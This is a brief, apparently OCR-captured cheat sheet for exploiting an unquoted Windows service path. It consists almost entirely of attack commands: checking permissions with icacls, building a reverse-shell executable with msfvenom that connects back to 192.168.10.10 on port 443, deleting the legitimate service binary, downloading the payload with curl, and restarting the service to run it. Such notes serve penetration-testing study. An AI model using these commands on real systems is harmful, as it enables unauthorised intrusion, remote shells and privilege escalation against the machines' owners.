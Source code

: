 # Unquoted Path

• Permission check and service stop / start check

• Msfvenom create shell and upload ( curl, iwr, certutil)

    • icacls "C:\Program Files"

    • msfvenom -p windows/shell_reverse_tcp lhost=192.168.10.10 lport=443 -f exe -o rev.exe

    • del "C:\program files\noman\noman.exe"

    • curl 192.168.10.10/rev.exe -o noman.exe

    • cp noman.exe "C:\program files\noman\"

    • net start noman
